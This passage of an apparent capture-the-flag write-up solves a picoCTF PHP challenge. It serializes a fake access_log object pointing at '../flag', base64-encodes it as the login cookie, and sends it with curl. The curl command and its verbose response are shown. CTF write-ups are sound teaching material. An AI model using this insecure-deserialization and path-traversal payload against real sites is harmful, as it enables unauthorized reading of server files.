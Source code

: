 ```php
              </form>
            </div>
          </div>
        </div>
      </div>
    </div>
  </body>
</html>
```

Now in the object `access_log`, the `read_log` method returns the contents of a given file. The `__toString` method is used when we print any object. So if we were to print like this 

```php
<?php
$a = new access_log("/path/to/whatever")
echo $a;
//$a.__toString() gets called!
?>
```

We would get the contents of whatever file path we pass in to `access_log`.

The vulnerability, is in the fact that if we were to pass in `../flag` to `access_log`, and get it printed. We could see it's contents. 

That raises 2 questions. 
1. How do we pass in `../flag` to `access_log`?
2. How do we get it printed?


## Exploit

In `cookie.phps` we saw that if there is an error it prints the object contents. If we were to cause an error in `cookie.phps`, we could make a call to `.__toString`.

So if we were to pass `access_log("../flag")` as the `login` cookie and send it to `authentication.phps`. We would cause an error in `cookie.phps` which would inturn make a call to `access_log("../flag").__toString()` printing the contents of `../flag`. 

Hence, we would have to set the `login` cookie to a fake `access_log("../flag")` object.

The plan:

1. Create a fake object string with `serialize(access_log("../flag"))`. Use this online php [compiler](http://sandbox.onlinephpfunctions.com) 
2. Encode it with base64.
3. Pass the encoded string as `login` cookie to `authentication.php`. You can do this with `curl` or the `devtools` from your browser.

```console
$ curl -v --cookie 'login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9' mercury.picoctf.net:2148/authentication.php
*   Trying 18.189.209.142:2148...
* Connected to mercury.picoctf.net (18.189.209.142) port 2148 (#0)
> GET /authentication.php HTTP/1.1
> Host: mercury.picoctf.net:2148
> User-Agent: curl/7.81.0
> Accept: */*
> Cookie: login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Set-Cookie: PHPSESSID=hs6bieo6173kqq7vv8o817bjis; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Content-type: text/html; charset=UTF-8
```